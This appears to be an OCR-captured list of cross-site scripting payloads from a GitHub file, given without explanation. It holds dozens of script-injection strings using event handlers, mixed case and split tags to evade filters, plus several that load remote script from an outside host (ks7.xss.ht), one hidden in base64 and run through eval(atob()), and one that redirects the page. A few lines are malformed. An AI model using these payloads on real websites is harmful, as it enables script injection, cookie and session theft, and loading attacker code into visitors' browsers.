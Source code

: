 
<ScRipT>alert("XSS");</ScRipT>
<script>alert(1)</script>
<script>alert('XSS')</script>
"><script>alert(1)</script>
<script>alert(/XSS")</script>
<script>alert(/XSS/)</script>
</script><script>alert(1)</script>
<ScRiPt>alert(1)</sCriPt>
<IMG SRC=jAVasCrIPt:alert(1)>
<IMG SRC="javascript:alert(1);">
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<script>$.getScript("//ks7.xss.ht")</script>
<IMG SRC=javascript:alert(1)>      
<img src="KS" onerror=alert(1)>
'; alert(1);
')alert(1);//
<script>prompt(1)</script>
<script>confirm(1)</script>
<script>window.location.replace("http://www.google.com");</script>
"><script src=https://ks7.xss.ht></script>
<svg/onload=alert(1)
<input value=<><iframe/src=javascript:confirm(1)
<input type="text" value=`` <div/onmouseover='alert(1)'>X</div>
<scr<script>ipt>alert(1)</scr</script>ipt>
<BODY ONLOAD=alert(1)>
\\";alert('XSS');//
'';!--"<XSS>=&{()}
</TITLE><SCRIPT>alert(1);</SCRIPT>
<frameset onload=alert(123)>
<!--<img src="--><img src=x onerror=alert(123)//">
<embed src="javascript:alert(1)">
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8va3M3Lnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
window.alert(1);
<div style="x:expression((window.r==1)?'':eval('r=1;
alert(String.fromCharCode(88,83,83));'))">
<iframe<?php echo chr(11)?> onload=alert('XSS')></iframe>
"><script alert(String.fromCharCode(88,83,83))</script>
'">><marquee><h1>XSS</h1></marquee>
" onfocus=alert(document.domain) "> <"

